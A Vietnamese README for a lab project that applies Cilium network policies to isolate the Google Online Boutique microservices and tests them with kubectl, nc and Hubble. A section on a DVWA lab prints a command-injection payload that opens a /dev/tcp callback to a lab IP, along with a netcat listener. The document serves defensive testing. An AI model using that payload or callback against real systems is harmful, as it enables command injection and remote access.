



# Cilium Network Policy — Google Online Boutique và lab DVWA

Bộ rule giới hạn kết nối mạng của ứng dụng trong namespace `microservices-google-demo` theo sơ đồ gọi service. Mục tiêu chính là **hạn chế lateral movement**: nếu frontend bị chiếm quyền, kẻ tấn công không được kết nối trực tiếp tới Redis hoặc Payment ngoài các luồng đã cấp phép.

Tài liệu bổ sung **UC7: chặn callback reverse shell từ DVWA** trong namespace `dvwa`, dùng [case_reverse_shell.yaml](../case_reverse_shell.yaml). Policy DVWA được apply riêng, không nằm trong 15 policy Online Boutique của thư mục này.

**Cấu hình thực tế và đường truy cập thực nghiệm:** Service `frontend-external` có **type `LoadBalancer`**, đồng thời được cấp **NodePort `30183`**. Bài thực nghiệm chọn truy cập qua `http://<IP-node>:30183`; đây là cổng NodePort của cùng Service LoadBalancer, không phải một Service loại NodePort riêng.

| Thuộc tính của frontend-external | Giá trị hiện tại |
|---|---|
| Service type | `LoadBalancer` |
| Địa chỉ LoadBalancer | `192.168.40.130:80` |
| Đường NodePort dùng trong thực nghiệm | `<IP-node>:30183` |
| Service port | `80` |
| Target/Pod port | `8080` |

Hai địa chỉ truy cập thuộc cùng Service và cùng đích frontend. Các luồng lateral movement UC3–UC4 được test bên trong Pod frontend, không phụ thuộc việc client web chọn đường LoadBalancer hay NodePort.

Đối chiếu ngày **23/10/2026**: cluster đang có **15 CiliumNetworkPolicy, đều `Valid=True`**. Cilium v1.20.1 chạy policy enforcement mode `default`, native routing và bật kube-proxy replacement. Policy `00-default-deny.yaml` đưa các Pod trong namespace ứng dụng vào default deny ở cả ingress lẫn egress. Các kết quả test trước đó được ghi riêng trong [TEST-SCENARIOS.md](TEST-SCENARIOS.md); không coi toàn bộ use case dưới đây là đã chạy thành công.

## 1. Mô hình ứng dụng



*Sơ đồ được vẽ lại theo hình bạn cung cấp, giữ 12 thành phần và 16 luồng gọi nội bộ. Đây là bản dựng lại trong repo, không phải file ảnh đính kèm gốc. Tên ngắn trong hình tương ứng với label triển khai: `cart` = `cartservice`, `payment` = `paymentservice`, Redis cache = `redis-cart`, v.v.*

Mũi tên biểu diễn **chiều khởi tạo kết nối**. Ví dụ Cart được khởi tạo kết nối tới Redis; phản hồi Redis được cho phép theo kết nối đã thiết lập, không cần cấp quyền cho Redis chủ động gọi Cart.

## 2. Các điểm Cilium đang kiểm soát



*Hình bao gồm đầy đủ 12 component của ứng dụng và cả 16 luồng nội bộ: loadgenerator, frontend, adservice, recommendationservice, productcatalogservice, cartservice, checkoutservice, shippingservice, currencyservice, paymentservice, emailservice và redis-cart. CoreDNS thể hiện quyền DNS ra ngoài namespace ứng dụng. Hình tập trung vào kết nối nội bộ; cách truy cập frontend từ bên ngoài được trình bày riêng ở UC5. Cổng trong mỗi ô service ứng dụng là cổng Pod đích.*

- **Đường xanh:** luồng được cấp phép, đúng nguồn/đích và cổng TCP.
- **Đường đỏ nét đứt:** ví dụ lateral movement bị default deny chặn vì không có allow rule tương ứng. Không có rule `deny` riêng cho từng đường đỏ.
- **Đường xanh dương nét đứt:** DNS được phép tới CoreDNS trong `kube-system`, TCP/UDP 53.
- **Khung nét đứt:** phạm vi namespace ứng dụng chịu default deny. Đây là phạm vi policy, không phải ranh giới mã hóa hay firewall của node.

| Phần kiểm soát | Rule/file | Hành vi hiện tại |
|---|---|---|
| Nền mặc định | [00-default-deny.yaml](00-default-deny.yaml) | Chặn khởi tạo kết nối vào/ra Pod nếu không được một policy cho phép |
| DNS | [01-allow-dns.yaml](01-allow-dns.yaml) | Chỉ mở TCP/UDP 53 tới Pod CoreDNS có label `k8s-app=kube-dns` trong `kube-system` |
| Client ngoài vào frontend | [frontend-external.yaml](frontend-external.yaml) | Cho nguồn `world` vào Pod frontend TCP 8080; áp dụng cho traffic tới Pod qua LoadBalancer hoặc NodePort khi giữ identity nguồn phù hợp; không phải IP allowlist |
| Frontend gọi backend | [frontend.yaml](frontend.yaml) và rule của từng backend | Cho frontend gọi 7 backend được liệt kê dưới đây; không mở frontend tới Redis, Payment hoặc Email |
| Checkout điều phối đơn hàng | [checkoutservice.yaml](checkoutservice.yaml) và rule của backend | Cho Checkout gọi Product Catalog, Cart, Shipping, Currency, Payment, Email |
| Truy cập Redis | [cartservice.yaml](cartservice.yaml), [redis-cart.yaml](redis-cart.yaml) | Chỉ Cart trong sơ đồ được gọi Redis TCP 6379 |
| Truy cập Payment/Email | [paymentservice.yaml](paymentservice.yaml), [emailservice.yaml](emailservice.yaml) | Chỉ Checkout trong sơ đồ được gọi hai service này |
| Đích ngoài allowlist | Default deny | Không cấp egress tới Internet, Kubernetes API hoặc namespace khác, ngoại trừ DNS đã nêu |

Rule service kiểm tra đồng thời **label `app` + ServiceAccount + namespace**. Một luồng nội bộ cần cả **egress của nguồn** và **ingress của đích**; việc cùng luồng xuất hiện trong hai file này là cần thiết khi cả hai hướng đều bị giới hạn.

### Toàn bộ luồng được cho phép

Các dòng gộp nhiều nguồn đại diện cho các kết nối riêng. Có **16 luồng nội bộ**, cộng quyền DNS và quyền client ngoài vào frontend.

| Nguồn | Đích thực tế | Service port → Pod port | Protocol |
|---|---|---|---|
| loadgenerator | frontend | 80 → 8080 | TCP |
| Client ngoài (`world`) | frontend qua frontend-external | VIP:80 hoặc IP-node:30183 → Pod 8080 | TCP |
| frontend | adservice | 9555 → 9555 | TCP |
| frontend | recommendationservice | 8080 → 8080 | TCP |
| frontend, recommendationservice, checkoutservice | productcatalogservice | 3550 → 3550 | TCP |
| frontend, checkoutservice | cartservice | 7070 → 7070 | TCP |
| frontend | checkoutservice | 5050 → 5050 | TCP |
| frontend, checkoutservice | shippingservice | 50051 → 50051 | TCP |
| frontend, checkoutservice | currencyservice | 7000 → 7000 | TCP |
| checkoutservice | paymentservice | 50051 → 50051 | TCP |
| checkoutservice | emailservice | 5000 → 8080 | TCP |
| cartservice | redis-cart | 6379 → 6379 | TCP |
| Pod trong namespace ứng dụng | CoreDNS trong kube-system | 53 → 53 | TCP/UDP |

**Lưu ý port:** các rule endpoint ở đây dùng cổng đích của Pod. Frontend có Service loại LoadBalancer với VIP `192.168.40.130:80`, NodePort `30183` và Pod port `8080`; Email có Service port 5000 nhưng Pod port 8080. Bài thực nghiệm dùng `IP-node:30183`, test qua tên Service dùng Service port, còn policy endpoint frontend vẫn dùng `8080`, không dùng `30183`. CNP không tạo hoặc đổi loại Service.

### ServiceAccount tương ứng

| Label app | ServiceAccount |
|---|---|
| frontend, loadgenerator | Cùng tên từng app |
| adservice, recommendationservice, productcatalogservice | Cùng tên từng app |
| cartservice, checkoutservice, shippingservice, currencyservice | Cùng tên từng app |
| paymentservice, emailservice | Cùng tên từng app |
| redis-cart | `default` |

`default` trong rule Redis là tên account Pod Redis đang dùng. Các service không cần dùng chung account với nhau. Trong policy, `endpointSelector` chọn Pod chịu rule; `fromEndpoints` chọn bên gửi; `toEndpoints` chọn bên nhận.

## 3. Apply và kiểm tra policy

Các lệnh dưới chạy trong **PowerShell tại thư mục `C:\Users\Phuong\Downloads\it2003-cilium-ebpf-project\e2\cilium`**:

```powershell
kubectl config current-context
kubectl apply --dry-run=server -f .
kubectl apply -f .
kubectl get cnp -n microservices-google-demo
kubectl wait -n microservices-google-demo --for=condition=Valid cnp --all --timeout=30s
```

| Tham số/lệnh | Ý nghĩa |
|---|---|
| `config current-context` | Xem cluster/context sắp thao tác |
| `apply -f .` | Tạo/cập nhật các resource trong file YAML tại thư mục hiện tại |
| `--dry-run=server` | Kiểm tra qua API server mà không lưu resource; chưa chứng minh agent đã nhận policy |
| `get cnp` | Liệt kê CiliumNetworkPolicy và cột `VALID` |
| `-n microservices-google-demo` | Chọn namespace ứng dụng |
| `wait --for=condition=Valid` | Chờ trạng thái hợp lệ do Cilium báo về |
| `--all --timeout=30s` | Kiểm tra tất cả CNP trong namespace, chờ tối đa 30 giây |

Apply nhiều resource không nguyên tử; có thể gián đoạn ngắn khi default deny có hiệu lực trước các allow rule. Không chỉ apply default deny khi chưa có allow rule cần thiết. Tên file không quyết định thứ tự thực thi policy; allow rule được cộng dồn.

## 4. Chuẩn bị môi trường test

### 4.1. Xác định Pod frontend thật

Chạy trong PowerShell:

```powershell
kubectl get pods -n microservices-google-demo -l app=frontend -o wide
```

`-l app=frontend` lọc theo label; `-o wide` hiển thị thêm IP/node. Chọn Pod của Deployment frontend đang `READY=1/1`, không chọn Pod thử nghiệm chỉ trùng label.

Đặt các biến; cập nhật tên Pod nếu đã thay đổi:

```powershell
$Namespace = 'microservices-google-demo'
$FrontendPod = 'frontend-fdd86794-kwckr'
$DebugContainer = 'net-debug-' + (Get-Date -Format 'HHmmss')
```

`$DebugContainer` là tên container debug mới có hậu tố thời gian, không phải tên Pod. Không cần tìm tên `debugger-8s6qc` cũ.

### 4.2. Mở debugger trong Pod frontend

```powershell
kubectl debug -it -n $Namespace "pod/$FrontendPod" --container=$DebugContainer --image=nicolaka/netshoot --target=server -- /bin/bash
```

| Tham số | Ý nghĩa |
|---|---|
| `debug` | Thêm ephemeral container để chẩn đoán Pod đang chạy |
| `-it` | Giữ stdin và mở terminal tương tác |
| `-n $Namespace` | Namespace của Pod |
| `pod/$FrontendPod` | Pod frontend nguồn của các kết nối thử nghiệm |
| `--container=$DebugContainer` | Đặt tên container debug mới |
| `--image=nicolaka/netshoot` | Image chứa `nc`, `dig`, `curl` |
| `--target=server` | Yêu cầu nhắm tới process namespace của container `server` nếu runtime hỗ trợ |
| `-- /bin/bash` | Dấu `--` kết thúc tham số kubectl; mở shell Bash trong debugger |

Debugger **dùng chung mạng và danh tính mạng của Pod frontend**, nên kết nối chịu cùng Cilium policy. Đây là cách mô phỏng vị trí kẻ tấn công sau khi đã chạy được lệnh bên trong frontend; không thực hiện bước khai thác frontend.

Sau lệnh trên, terminal đã ở **Bash trong debugger**. Các lệnh `dig`, `nc` trong UC1–UC4 được chạy tại đây. Để thoát, gõ `exit`. Ephemeral container không được xóa riêng khỏi Pod; metadata tồn tại tới khi Pod được tạo lại.

Nếu đã có debugger đang chạy, có thể dùng lại từ PowerShell:

```powershell
kubectl describe pod $FrontendPod -n $Namespace
kubectl exec -it -n $Namespace $FrontendPod -c <ten-debugger-dang-chay> -- /bin/bash
```

Xem mục `Ephemeral Containers` để lấy tên container có state Running; thay placeholder trước khi chạy. `exec` chạy lệnh trong container đã có; `-c` chọn container đó.

### 4.3. Mở Hubble để xem kết nối

Mở một PowerShell khác và chuyển tiếp cổng tới Hubble UI:

```powershell
kubectl port-forward -n kube-system svc/hubble-ui 12000:80
```

`svc/hubble-ui` là Service giao diện; `12000:80` chuyển cổng 12000 trên máy bạn tới cổng 80 của Service. Giữ terminal này mở, truy cập **http://localhost:12000**.

Chọn namespace `microservices-google-demo`, chạy test khi UI đang mở để xem flow mới. Lọc verdict `Dropped`, xem lý do `Policy denied` cùng nguồn/đích/port. Port-forward này chỉ phục vụ Hubble UI; client của ứng dụng vẫn dùng NodePort.

Nếu có Hubble CLI đã kết nối relay:

```powershell
hubble observe --namespace microservices-google-demo --verdict DROPPED --follow
```

`observe` xem flow; `--namespace` lọc namespace; `--verdict DROPPED` lọc flow bị loại bỏ; `--follow` tiếp tục theo dõi flow mới. Không có CLI thì dùng UI ở trên.

## 5. Use case cần kiểm soát và cách chạy

| ID | Use case | Luồng | Kỳ vọng |
|---|---|---|---|
| UC1 | DNS hoạt động khi bật default deny | frontend → CoreDNS:53 | Phân giải được Service |
| UC2 | Luồng nghiệp vụ hợp lệ vẫn kết nối được | frontend → cartservice:7070 | TCP thành công |
| UC3 | Chặn lateral movement tới cache | frontend → redis-cart:6379 | Policy drop |
| UC4 | Chặn gọi Payment bỏ qua Checkout | frontend → paymentservice:50051 | Policy drop |
| UC5 | Client ngoài truy cập frontend | Client → NodePort của Service LoadBalancer → Pod:8080 | Có HTTP response |
| UC6 | Ứng dụng hoạt động sau phân đoạn mạng | Duyệt sản phẩm, giỏ hàng, đổi tiền, checkout | Thành công khi dependency Ready |
| UC7 | Chặn callback reverse shell từ DVWA | Pod DVWA → máy lab:4444 | Policy drop; web/DNS/ping vẫn hoạt động |

### UC1 — Cho phép DNS tới CoreDNS

**Chạy trong Bash của debugger frontend:**

```bash
dig +short +time=2 +tries=1 redis-cart.microservices-google-demo.svc.cluster.local
```

- `dig`: gửi truy vấn DNS; tên cuối là tên đầy đủ của Service Redis.
- `+short`: chỉ in kết quả ngắn gọn.
- `+time=2`: đặt thời gian chờ phản hồi DNS là 2 giây.
- `+tries=1`: chỉ thử truy vấn một lần.

**Kỳ vọng:** trả về ClusterIP Redis; hiện Service là `10.104.76.160`. Quyền do `01-allow-dns.yaml` cấp. Nếu DNS lỗi, sửa lỗi này trước khi kết luận từ các bài dùng tên Service.

### UC2 — Cho phép frontend gọi Cart

**Chạy trong Bash của debugger frontend:**

```bash
nc -zv -w 3 cartservice 7070
```

- `nc`: kiểm tra kết nối, mặc định TCP trong lệnh này.
- `-z`: chỉ thử kết nối cổng, không gửi payload ứng dụng.
- `-v`: in kết quả chi tiết.
- `-w 3`: timeout kết nối 3 giây.
- `cartservice 7070`: tên Service và cổng TCP đích.

**Kỳ vọng:** `succeeded`, exit code 0. `frontend.yaml` cho egress tới Cart; `cartservice.yaml` cho ingress từ frontend. Bài này là đối chứng: policy vẫn giữ luồng đúng sơ đồ.

### UC3 — Chặn frontend truy cập Redis trực tiếp

**Tình huống:** kẻ tấn công đã thực thi được lệnh ở frontend, thử tiếp cận Redis thay vì đi qua Cart.

**Chạy trong Bash của debugger frontend:**

```bash
nc -zv -w 3 redis-cart 6379
```

`redis-cart` là Service cache, `6379` là cổng Redis. `-z` chỉ thăm dò kết nối, `-v` in kết quả, `-w 3` đặt timeout 3 giây; không đọc/ghi dữ liệu Redis.

**Kỳ vọng:** timeout/exit code khác 0 **và** Hubble ghi `frontend → redis-cart:6379`, lý do `Policy denied`. `frontend.yaml` không mở egress tới Redis; `redis-cart.yaml` chỉ mở ingress từ Cart.

Đây là **mô phỏng nỗ lực lateral movement ở mức kết nối mạng**, không phải bằng chứng service đích đã bị khai thác. Đường nghiệp vụ hợp lệ vẫn là `frontend → Cart → Redis`.

### UC4 — Chặn frontend truy cập Payment trực tiếp

**Tình huống:** từ frontend đã bị chiếm quyền, thử kết nối Payment để bỏ qua luồng điều phối Checkout.

**Chạy trong Bash của debugger frontend:**

```bash
nc -zv -w 3 paymentservice 50051
```

`paymentservice 50051` chọn Service và cổng gRPC của Payment. `nc -zv -w 3` chỉ kiểm tra thiết lập TCP, hiển thị kết quả và giới hạn chờ 3 giây; không gọi method gRPC hay tạo giao dịch thanh toán.

**Kỳ vọng:** timeout/exit code khác 0 và Hubble ghi `frontend → paymentservice:50051`, `Policy denied`. Frontend không có egress tới Payment; Payment chỉ nhận từ Checkout. Đường đúng là `frontend → Checkout → Payment`.

### UC5 — Cho phép client ngoài truy cập frontend

Service đích thực tế là `frontend-external`, **type LoadBalancer**. Lệnh chính dưới đây kiểm tra **đường NodePort `30183` của Service đó** theo lựa chọn thực nghiệm.

**Chạy ở PowerShell trên máy có đường mạng tới node, không chạy trong debugger.** Xác định IP node và NodePort:

```powershell
kubectl get nodes -o wide
kubectl get svc frontend-external -n microservices-google-demo
$NodeIP = '192.168.40.161'
$NodePort = kubectl get svc frontend-external -n microservices-google-demo -o jsonpath="{.spec.ports[0].nodePort}"
$FrontendUrl = "http://${NodeIP}:$NodePort"
curl.exe --connect-timeout 3 --max-time 15 -I $FrontendUrl
```

- `get nodes -o wide`: xem IP node. `$NodeIP` là IP node máy client truy cập được; địa chỉ trên là ví dụ từ cluster, cần đổi nếu môi trường của bạn khác.
- `get svc frontend-external`: xem Service expose frontend; thay tên Service nếu bản thực nghiệm dùng tên khác.
- Cột `TYPE` hiện là `LoadBalancer`; `PORT(S)` là `80:30183/TCP`. Phần `30183` là NodePort; sự tồn tại cổng này không làm `TYPE` trở thành `NodePort`.
- `-o jsonpath="{.spec.ports[0].nodePort}"`: lấy NodePort của port đầu tiên trong Service, hiện là `30183`.
- `$FrontendUrl`: ghép URL NodePort, ví dụ `http://192.168.40.161:30183`.
- `curl.exe`: gửi request HTTP từ máy Windows.
- `--connect-timeout 3`: giới hạn giai đoạn thiết lập kết nối 3 giây.
- `--max-time 15`: giới hạn tổng thời gian chạy 15 giây.
- `-I`: gửi HTTP HEAD và in header phản hồi.
- NodePort chuyển request từ `IP-node:30183` tới Pod frontend TCP 8080. Không điền NodePort 30183 vào `toPorts` của policy endpoint.

**Kỳ vọng:** có HTTP response; không bắt buộc HEAD trả 200. Policy `frontend-external.yaml` cấp ingress từ `world`. Nếu timeout, xem Hubble để phân biệt policy drop với lỗi route, firewall node hoặc cấu hình NodePort. Với SNAT, identity nguồn có thể khác `world`; xác minh flow trước khi bổ sung quyền, không mở rộng thành `cluster` hoặc `all` chỉ để test qua.

Nếu muốn đối chiếu thêm đường LoadBalancer của cùng Service, chạy từ máy có đường mạng tới VIP:

```powershell
curl.exe --connect-timeout 3 --max-time 15 -I http://192.168.40.130/
```

Các tham số curl có ý nghĩa như trên, chỉ đổi URL đích từ IP node/NodePort sang VIP/cổng 80. Đây là phép kiểm tra đường truy cập bổ sung; không thay thế các test lateral movement bên trong Pod.

### UC6 — Xác minh chức năng ứng dụng

Mở URL NodePort đã xác định ở UC5, ví dụ **http://192.168.40.161:30183/**, và lần lượt xem sản phẩm, thêm giỏ, đổi loại tiền và checkout bằng dữ liệu demo. Bài này thao tác UI, không có tham số dòng lệnh.

Trước khi test đầy đủ, kiểm tra dependency từ PowerShell:

```powershell
kubectl get deployments -n microservices-google-demo
kubectl get endpointslices -n microservices-google-demo
```

`get deployments` xem số replica Ready; `get endpointslices` xem các endpoint mà Service có thể dùng. Tại lần kiểm tra ngày 23/10/2026, **Email, Recommendation và Loadgenerator đều replicas=0**. Email/Recommendation cần hoạt động để đánh giá đầy đủ chức năng liên quan; loadgenerator không bắt buộc cho test thủ công.

Nếu muốn khôi phục hai dependency để test, các lệnh sau **thay đổi số replica**:

```powershell
kubectl scale deployment/emailservice deployment/recommendationservice --replicas=1 -n microservices-google-demo
kubectl rollout status deployment/emailservice -n microservices-google-demo --timeout=120s
kubectl rollout status deployment/recommendationservice -n microservices-google-demo --timeout=120s
```

`scale --replicas=1` đặt mỗi Deployment về một replica; `rollout status` chờ trạng thái triển khai; `--timeout=120s` giới hạn chờ 120 giây. Bộ tài liệu không tự chạy các lệnh scale này. Nếu có HTTP 5xx, đối chiếu endpoint và log ứng dụng trước khi kết luận policy sai.

### UC7 — Chặn reverse shell từ lab DVWA

Case ở [e2/case_reverse_shell.yaml](../case_reverse_shell.yaml): kẻ tấn công lợi dụng Command Injection để chạy shell trong DVWA, rồi shell kết nối về máy lab để nhận lệnh.



**Case này chặn bằng Cilium egress, không phải rule Tetragon đọc file:**

- Giữ web DVWA: ingress TCP 80.
- Giữ DNS qua CoreDNS: egress TCP/UDP 53, và ping IPv4: ICMP Echo Request type 8.
- Các TCP outbound khác, gồm callback 4444/80/443, bị chặn mặc định nếu không có policy khác mở thêm.
- Shell có thể vẫn được tạo trong Pod. Cilium chặn callback, không kill shell hay sửa Command Injection. Tetragon bổ sung quan sát process; muốn dừng process cần enforcement riêng.

#### Cách kiểm tra

Từ PowerShell tại thư mục README này:

```powershell
kubectl apply -f ../case_reverse_shell.yaml
kubectl get cnp dvwa-exec-protection -n dvwa
```

`apply -f` triển khai file; `get cnp` xem policy và cột `VALID`; `-n dvwa` chọn namespace lab. File `../manifests/dvwa-exec-protection.yaml` là bản sao cùng resource, chỉ cần apply một bản.

Trên máy lab nhận kết nối, mở listener với netcat hỗ trợ các tham số sau:

```bash
nc -lvnp 4444
```

`-l` lắng nghe, `-v` in thông tin, `-n` không phân giải tên, `-p 4444` đặt cổng nghe. Listener này không tự tạo reverse shell.

Truy cập [trang Command Injection của DVWA](http://192.168.40.140/vulnerabilities/exec/), nhập payload test vào ô **Enter an IP address**, rồi bấm **Submit** để gửi POST từ form web.

**Payload test của bạn** — thay nội dung bên dưới bằng đoạn dùng trong thực nghiệm:

```text
127.0.0.1; timeout 4 bash -c 'echo DVWA_CALLBACK_TEST > /dev/tcp/10.8.0.10/1234' 2>&1; echo CALLBACK_EXIT:$?
```

IP và cổng callback trong payload phải khớp máy lab đang mở listener. Lệnh listener phía trên dùng cổng mẫu `4444`; đổi cổng nếu payload của bạn dùng cổng khác.

**Kỳ vọng:** kết nối bị chặn, Hubble có flow từ DVWA tới IP máy lab:4444 với lý do `Policy denied`. Timeout đơn thuần chưa đủ vì có thể do listener, route hoặc firewall. Kiểm tra web, DNS và ping vẫn hoạt động để đối chứng. Tài liệu này chưa triển khai hay chạy case reverse shell.

Trong Hubble UI, chọn namespace **dvwa** cho case này. Nếu dùng Hubble CLI đã kết nối relay:

```powershell
hubble observe --namespace dvwa --verdict DROPPED --follow
```

`--namespace dvwa` lọc đúng lab, `--verdict DROPPED` xem các flow bị loại bỏ, `--follow` theo dõi liên tục. Đối chiếu đúng IP/cổng và lý do `Policy denied`; các case Online Boutique trước đó dùng namespace khác.

Khi kết thúc test, nếu cần gỡ riêng policy DVWA:

```powershell
kubectl delete -f ../case_reverse_shell.yaml --ignore-not-found
```

`delete -f` xóa đúng policy trong file, `--ignore-not-found` bỏ qua nếu đã xóa. Lệnh này không xóa ứng dụng DVWA hay policy của Online Boutique.

### Đọc kết quả

UC3–UC4 chỉ kết luận bị **policy chặn** khi có flow Hubble tương ứng về nguồn, đích, port và lý do. Timeout đơn thuần có thể do lỗi mạng; `connection refused`, lỗi DNS hoặc Service không có endpoint không chứng minh Cilium đã chặn. `nc` thành công chỉ chứng minh kết nối TCP, chưa xác minh gRPC hay nghiệp vụ.

## 6. Danh sách file

```text
cilium/
├── 00-default-deny.yaml
├── 01-allow-dns.yaml
├── frontend-external.yaml
├── frontend.yaml
├── loadgenerator.yaml
├── adservice.yaml
├── recommendationservice.yaml
├── productcatalogservice.yaml
├── cartservice.yaml
├── checkoutservice.yaml
├── shippingservice.yaml
├── currencyservice.yaml
├── paymentservice.yaml
├── emailservice.yaml
├── redis-cart.yaml
├── assets/
│   ├── architecture-reference.png
│   ├── cilium-controls.png
│   ├── flow-reverse-shell.png
│   ├── draw-reverse-shell.ps1
│   └── draw-diagrams.ps1
├── TEST-SCENARIOS.md
└── README.md
```

Mỗi YAML chứa một policy. Ảnh PNG được lưu trực tiếp trong repo để README hiển thị không phụ thuộc URL ngoài. Khi đứng trong thư mục `cilium`, dựng lại hai sơ đồ Online Boutique bằng `powershell -File ./assets/draw-diagrams.ps1`; dựng workflow DVWA bằng `powershell -File ./assets/draw-reverse-shell.ps1`.

## 7. Rollback và giới hạn bảo vệ

Rollback bộ policy từ PowerShell tại thư mục `cilium`:

```powershell
kubectl delete -f . --ignore-not-found
```

`delete -f .` xóa các resource được khai báo trong YAML của thư mục hiện tại; `--ignore-not-found` bỏ qua resource đã không còn. Khi không còn policy khác chọn Pod, mode `default` trả endpoint về trạng thái không giới hạn tương ứng. Lệnh này không xóa workload ứng dụng.

Các rule hiện tại kiểm soát **L3/L4: danh tính nguồn/đích và cổng/protocol**. Chưa giới hạn URL, method HTTP/gRPC hay nội dung request; không thay thế RBAC, xác thực, TLS hoặc vá lỗ hổng ứng dụng. Frontend bị chiếm quyền vẫn có thể gọi các backend trong allowlist. DNS vẫn cho truy vấn tên miền bất kỳ tới CoreDNS, chưa kiểm soát rò rỉ dữ liệu qua DNS. Kết nối từ host và probe còn chịu cấu hình `allow-localhost`; không diễn giải default deny thành firewall bảo vệ mọi traffic của node.

Nguồn chính thức:

- [Cilium policy enforcement và cộng dồn allow rule](https://docs.cilium.io/en/stable/security/policy/intro/).
- [Cilium endpoint/entity policy](https://docs.cilium.io/en/stable/security/policy/layer3/).
- [Cilium namespace và ServiceAccount selector](https://docs.cilium.io/en/stable/security/policy/kubernetes/).
- [Kubernetes: debug Pod bằng ephemeral container](https://kubernetes.io/docs/tasks/debug/debug-application/debug-running-pod/).
- [Google Online Boutique manifests](https://github.com/GoogleCloudPlatform/microservices-demo/blob/main/release/kubernetes-manifests.yaml).
